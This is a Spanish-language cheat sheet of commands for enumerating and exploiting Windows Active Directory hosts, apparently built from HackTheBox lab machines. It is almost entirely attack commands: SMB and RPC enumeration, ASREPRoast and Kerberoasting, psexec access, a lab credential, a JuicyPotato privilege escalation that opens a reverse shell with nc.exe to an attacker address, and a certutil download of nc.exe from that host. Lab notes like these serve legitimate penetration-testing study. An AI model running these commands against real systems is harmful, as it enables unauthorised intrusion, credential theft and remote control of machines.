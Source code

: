 ## Windows

El objetivo de esta página es documentar los comandos mas utilizados en enumeración y explotaciónde máquinas Windows.

### crackmapexek

Para ver info de un equipo sin credenciales:

<pre>
crackmapexec smb 10.10.10.100 
</pre>

Para ver recursos compartidos sin credenciales:

<pre>
  crackmapexec smb 10.10.10.100  --shares
</pre>

Para conectar con credenciales:

<pre>
  crackmapexec smb 10.10.10.100  -u 'usuario' -p 'password' --shares
</pre>

### smbmap

Para conectar a un host sin credenciales, nos lista unidades sin credenciales:

<pre>
smbmap -H 10.10.10.1000
</pre>

Para conectar ver lo que tiene un recurso, paramero -r:

<pre>
smbmap -H 10.10.10.1000 -r Replication
</pre>

Para descargarnos algo, parámetro --download

<pre>
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
</pre>

Con credenciales:

<pre>
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups
</pre>

### SMBGET 

Para descargar un directorio entero:

<pre>
smbget -R smb://active.htb/Replication -U ""
</pre>

### smbclient

Visualizar sin credenciales:

<pre>
smbclient -L //10.10.10.100/Replication -N

</pre>

Tambien se puede montar unidad con **mount**

<pre>
sudo mount -t cifs //active.htb/Replication /mnt/HTB/Active -o username="{user}",password="{pass}",domain=active.htb,rw
</pre>
### rpcclient

Una vez que tenemos credencales nos podemos conectar co  **rpcclient**:

<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100
</pre>

Tambien es posible a veces conectarse con sesion null:
<pre>
rpcclient -U "" 10.10.10.100 -N
</pre>

Con credenciales, listamos usuarios del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomusers'
</pre>


Con credenciales, listamos grupos del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomgroups'
</pre>


Con credenciales, usuarios de un grupo. Pasamos el id de grupo:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygroupmem 0x200'
</pre>



Con credenciales, Info de un  usuario por su id:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'queryguser 0x1f4'
</pre>

Con credenciales, ver las desripciones de todos los usuarios:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygdispinfo'
</pre>

### rpcenum

Herramienta de s4vitar para enumerar usuarios y grupos de un dominio. Revisar m´áquina Active de HTB para ver como configurarla.

### ASREPRoast Attack

Cuando solo se dispone de usuarios, sin credenciales, **y estando en un entorno de active directory** se puede intentar un ASREPRoast Attack con GetNPUsers:
<pre>
GetNPUsers.py active.htb/ -no-pass -usersfile users.txt 
</pre>

Tambien puede hacerse un ataque 
### Kerbrute

Si está el puerto de kerberos aberto, el 88, se puede usar kerbrute para enumerar teniendo un diccionario.
<pre>
kerbrute userenum -dc 10.10.10.100 -d active.htb /usr/share/wordlists/SecList/Usernames/Names/names.txt
</pre>

### GetUsersSPNs, Kerberoasting ATTACK

Si no es Kerberoasteable podemos usar esta opción para enumerar.

<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA
</pre>

Si hay resultado se puede obtener un TGS, (Ticket Garanting Service). El hash se puede intentar romper con john


<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA -request
</pre>

Tambien puede hacerse kerberos con credenciales con *+crackmapexec**:

<pre>
crackmapexec ldap active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 --kerberoasting TGS-REP
</pre>
### PSEXEC

Si con **crackmapexec smb** nos aparece **Pwned** podemos obtener acceso con psexec:

<pre>
psexec.py active.htb/Administrator:CONTRASEÑA@10.10.10.100 cmd.exe
</pre>

## ESCALADA DE PRIVILEGIOS

### SeImpersonatePrivilege

si el usuario pertenece a este grupo hay varias vias de convertirse en **NT Authority System**.

#### Juicy Potato

Se puede escalar privilegios, previa subida de JuicyPotato.exe y nc.exe:

<pre>
JP.exe -t * -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\\windows\temp\privescnc.exe -e cmd 10.10.14.51 4446"
</pre>

#### Chimichurry
Otra vía es **Chimichurri**, aunque a veces no va.

<pre>
Chimichurri.exe 10.10.14.51 4446
</pre>

## TRUCOS

### subir archivos desde CMD:
<pre>
certutil.exe -f -urlcache -split http://10.10.14.51/nc.exe nc.exe
</pre>

### Enumerar SYSVOL

Si se puede enumerar SYSVOL hay que buscar el ficehro Groups.txt, (Policies/xxxx/MACHINE/Preferences/Group).
Como microsoft publicó la clave de desencriptación se puede utilizar **gpp-decript**.

<pre>
gpp-decrypt 'CONTRASEÑAEMCRIPTADA'
</pre>

### Sincronizar reloj

Para ataques ASREPRoast o kerbrute hay que sincronizar el reloj con el de la maquina active directory:

<pre>
ntpdate 10.10.10.100
</pre>

Con **date -s** podemos volver a dejar la fecha igual. Investigar como.


## Enlaces de interes

[Windows Cheet-Sheet by Intrusionz3r0](https://intrusionz3r0.github.io/posts/Windows/)
